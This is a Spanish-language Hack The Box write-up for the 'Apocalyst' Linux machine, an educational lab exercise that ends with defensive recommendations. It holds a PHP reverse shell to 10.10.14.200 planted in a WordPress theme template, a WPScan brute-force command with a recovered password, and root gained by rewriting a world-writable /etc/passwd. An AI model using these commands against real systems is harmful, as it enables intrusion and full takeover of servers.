# Apocalyst — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟡 Medio
**SO:** Linux
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Gobuster · CeWL (diccionario personalizado) · Wfuzz (página oculta) · Esteganografía (`steghide`) · WPScan (enumeración + fuerza bruta) · WordPress Theme Editor RCE · `/etc/passwd` escribible → root

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — WordPress vía credenciales filtradas en esteganografía](#3-acceso-inicial--wordpress-vía-credenciales-filtradas-en-esteganografía)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Antes de lanzar cualquier escaneo, comprobamos que la máquina responde y aprovechamos el TTL del ping para intuir el sistema operativo:

```bash
ping -c 1 10.129.32.67
```



Un TTL de **63** (el valor por defecto en Linux es 64, y baja de a uno por cada salto) es una señal fuerte de que el objetivo es una máquina **Linux**, a diferencia de Windows que suele partir de TTL 128.

A continuación lanzamos un escaneo rápido de todos los puertos TCP, sin resolución de nombres y con un ritmo de paquetes alto para no perder tiempo:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.32.67 -oN AllPorts
```



Con los puertos abiertos identificados (**22/tcp** y **80/tcp**), lanzamos un segundo escaneo dirigido con detección de versión y scripts por defecto de nmap para tener más contexto:

```bash
nmap -sCV -T5 -p22,80 10.129.32.67 -oN Targeted
```



| Parámetro | Función |
|-----------|---------|
| `-sS` | Escaneo SYN (sigiloso, no completa el handshake TCP) |
| `-Pn` | No hace ping previo (evita descartar el host si el ICMP está filtrado) |
| `-vvv` | Máxima verbosidad, útil para seguir el progreso en vivo |
| `--min-rate 5000` | Fuerza un envío mínimo de 5000 paquetes/seg para acelerar el escaneo |
| `--open` | Solo muestra puertos abiertos, reduciendo el ruido en la salida |
| `-n` | Sin resolución DNS |
| `-p-` | Escanea el rango completo de 65535 puertos |
| `-sCV` | Scripts por defecto (`-sC`) + detección de versión (`-sV`) |

> 💡 Solo dos puertos abiertos: **SSH (22)** y **HTTP (80)**. Con este panorama tan reducido, toda la superficie de ataque inicial se concentra en el servicio web.

## 2. Enumeración del servicio web

Al acceder al puerto 80 por IP, la página redirige y las herramientas de desarrollador del navegador muestran referencias a un dominio virtual: `apocalyst.htb`, junto con rutas típicas de **WordPress** (`wp-emoji-release.min.js`, `wp-includes`, feeds RSS del blog).



Añadimos el vhost a `/etc/hosts` para que el navegador y las herramientas de línea de comandos resuelvan correctamente el dominio:

```
10.129.32.67    apocalyst.htb
```



Con el vhost resuelto, lanzamos un escaneo de directorios con Gobuster para mapear la estructura del sitio:

```bash
sudo gobuster dir -u http://apocalyst.htb/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x .html,.py,.php,.js
```



| Parámetro | Función |
|-----------|---------|
| `dir` | Modo de enumeración de directorios de Gobuster |
| `-u` | URL objetivo |
| `-w` | Diccionario a usar |
| `-x` | Extensiones adicionales a probar sobre cada palabra del diccionario |

Gobuster confirma la presencia de un WordPress completo (`/wp-content/`, `wp-login.php` con código 200) y varias rutas de contenido (`/blog/`, `/events/`, `/pictures/`, `/personal/`, etc.), todas devolviendo redirecciones 301.

Accedemos primero al panel de login de WordPress para confirmar la versión del CMS:



Y navegamos al blog, donde encontramos la página **"Apocalypse Preparation Blog"**, con una entrada firmada por el usuario **`falaraki`**:



> 💡 Es un blog y vemos un posible usuario: **`falaraki`**. Este nombre será clave más adelante para intentar autenticarnos en WordPress.

Con un usuario potencial identificado pero sin contraseña, usamos **CeWL** para generar un diccionario personalizado a partir de las palabras que aparecen en el propio sitio web — una técnica muy efectiva cuando el contenido del sitio puede estar relacionado con las credenciales del administrador:

```bash
cewl -w diccionario.txt http://apocalyst.htb/
```



Con ese diccionario recién creado, usamos **Wfuzz** para buscar páginas ocultas que no aparecieron en el escaneo de Gobuster, filtrando por código de respuesta 200 y descartando los 404:

```bash
wfuzz -c -t 200 -L --hc=404 -w diccionario.txt http://apocalyst.htb/FUZZ
```



Esta primera pasada devuelve muchos falsos positivos con el mismo tamaño de respuesta (157 caracteres), así que refinamos el filtro excluyendo también ese tamaño para quedarnos solo con la respuesta distinta:

```bash
wfuzz -c -t 200 -L --hh=157 --hc=404 -w diccionario.txt http://apocalyst.htb/FUZZ
```



Aislamos una única página que se sale del patrón: **`/Rightiousness/`**. La visitamos y encontramos una imagen de temática apocalíptica a pantalla completa:



> 💡 Una página oculta, sin enlaces desde el resto del sitio, que solo muestra una imagen, es una señal clásica de **esteganografía**: el verdadero contenido no está en el HTML, sino escondido dentro del propio fichero de imagen.

## 3. Acceso inicial — WordPress vía credenciales filtradas en esteganografía

Descargamos la imagen de esa página (`image.jpg`) y le aplicamos `steghide` para extraer cualquier dato oculto en ella:

```bash
steghide extract -sf image.jpg
```



El comando pide un salvoconducto (contraseña) vacío y extrae un fichero **`list.txt`**:



El contenido de `list.txt` es una lista de palabras (aparentemente extraída de una página de Wikipedia) — no son credenciales directas, sino un **diccionario de contraseñas candidatas** para usar contra el usuario `falaraki` que ya habíamos identificado en el blog.

Confirmamos primero la existencia de ese usuario en WordPress con **WPScan**, activando la enumeración de usuarios:

```bash
wpscan --url http://apocalyst.htb/ --enumerate u
```



WPScan confirma al usuario **`falaraki`**, detectado por múltiples métodos (nombre de autor en las entradas, generador RSS, fuerza bruta de ID de autor y mensajes de error de login):



Con el usuario confirmado y el diccionario extraído de la esteganografía, lanzamos un ataque de fuerza bruta dirigido con WPScan:

```bash
wpscan --url http://apocalyst.htb/ -U falaraki -P list.txt
```



WPScan encuentra una combinación válida:



```
Username: falaraki
Password: Transclisiation
```

> 💡 La cadena completa de esta fase es: usuario filtrado en el blog → diccionario personalizado del propio sitio (CeWL) para encontrar una página oculta (Wfuzz) → imagen con esteganografía en esa página → diccionario de contraseñas oculto dentro de la imagen → fuerza bruta dirigida con WPScan. Cada herramienta alimenta a la siguiente.

Iniciamos sesión en `wp-login.php` con las credenciales obtenidas:



## 4. Obtención de shell

Con acceso al panel de administración de WordPress, el camino más directo a ejecución de código es el **editor de temas** (`Apariencia → Editor`), que permite modificar directamente los ficheros PHP del tema activo. Editamos la plantilla **404.php** del tema Twenty Seventeen e insertamos una reverse shell en PHP al principio del fichero:

```php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.200/443 0>&1'");
```



Antes de disparar el payload, levantamos un listener en nuestra máquina atacante:

```bash
nc -lvnp 443
```

Y forzamos la carga de la plantilla 404 haciendo una petición a una ruta que no existe (`?p=404.php` fuerza que WordPress resuelva la página de error, ejecutando nuestro código inyectado):

```bash
curl -s -X GET "http://apocalyst.htb/?p=404.php"
```


El listener recibe la conexión:



Obtenemos una shell como el usuario **`www-data`**, el usuario con el que corre el servidor web.

### Escalada de privilegios

Buscamos ficheros y directorios escribibles por `www-data` en todo el sistema, excluyendo las rutas ruidosas habituales (`/proc`, `/sys`, `/var`, `/dev`, `/tmp`, `/run`):

```bash
find / -writable 2>/dev/null | grep -vE "/proc|/sys|/var|/dev|/tmp|/run"
```



> 💡 Buscando ficheros que podemos escribir y probando fichero a fichero excluyendo rutas, encontramos que el **`/etc/passwd`** podemos editarlo — tiene permisos `rw-rw-rw-` (666), cuando normalmente solo debería ser escribible por `root`.

Esto es una vía de escalada de privilegios directa: si podemos escribir en `/etc/passwd`, podemos **añadir o modificar una entrada de usuario con UID 0** (root), fijándole una contraseña que nosotros conozcamos.

Generamos el hash de una contraseña con `openssl passwd` (formato compatible con `/etc/passwd`, a diferencia de `/etc/shadow` que usa otro esquema):

```bash
openssl passwd
```



Con el hash generado, editamos `/etc/passwd` con `nano` y sustituimos la `x` de la entrada de `root` por el hash obtenido, dejando el UID/GID en 0 y el shell en `/bin/bash`:

```
root:VHeX2dFhZ7ySc:0:0:root:/root:/bin/bash
```



Con la contraseña ya conocida, cambiamos de usuario a `root`:

```bash
su root
```



`whoami` confirma acceso como **root**.

## 5. Post-explotación y flags

Con shell de root confirmada (`root@apocalyst:/var/www/html/apocalyst.htb# whoami` → `root`), el acceso total al sistema queda demostrado. Las capturas disponibles no incluyen la lectura explícita de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus contenidos — el objetivo de la máquina (compromiso total) queda acreditado con la shell de root obtenida.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Divulgación de nombre de usuario en el blog | Entrada de WordPress firmada por el autor | Permite dirigir ataques de fuerza bruta a una cuenta concreta en vez de a todas |
| Página oculta sin enlazar, descubierta por fuzzing con diccionario propio | `/Rightiousness/` | Expone contenido (imagen) que no debería ser público ni descubrible |
| Esteganografía usada para "ocultar" un diccionario de contraseñas | `image.jpg` en `/Rightiousness/` | Falsa sensación de seguridad — cualquiera que descubra la página puede extraer el fichero con `steghide` sin contraseña |
| Contraseña débil/reutilizada de WordPress | Cuenta de `falaraki` | Permite tomar el panel de administración completo |
| Editor de temas de WordPress accesible a cualquier administrador | `Apariencia → Editor` | Ejecución de código arbitrario (RCE) en el servidor con los privilegios del proceso web |
| `/etc/passwd` con permisos de escritura para todos (666) | Sistema de ficheros | Escalada de privilegios trivial a root añadiendo un hash de contraseña propio |

## Recomendaciones defensivas

- No firmar entradas de blog ni contenido público con nombres de usuario reales que coincidan con cuentas administrativas.
- Evitar exponer páginas "ocultas" confiando en que no estén enlazadas (seguridad por oscuridad); si un recurso no debe ser público, debe estar protegido por autenticación.
- No usar esteganografía como mecanismo de "protección" de credenciales — no sustituye al cifrado ni al control de acceso.
- Forzar contraseñas robustas y únicas para cuentas de WordPress, especialmente las de administrador.
- Deshabilitar el editor de archivos de temas y plugins en producción (`define('DISALLOW_FILE_EDIT', true);` en `wp-config.php`).
- Mantener WordPress, temas y plugins actualizados y limitar los intentos de login (rate limiting / 2FA).
- Auditar periódicamente los permisos de ficheros críticos del sistema como `/etc/passwd` y `/etc/shadow`.
- Ejecutar el servidor web con el mínimo privilegio posible y aplicar `AppArmor`/`SELinux` para contener una shell comprometida.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
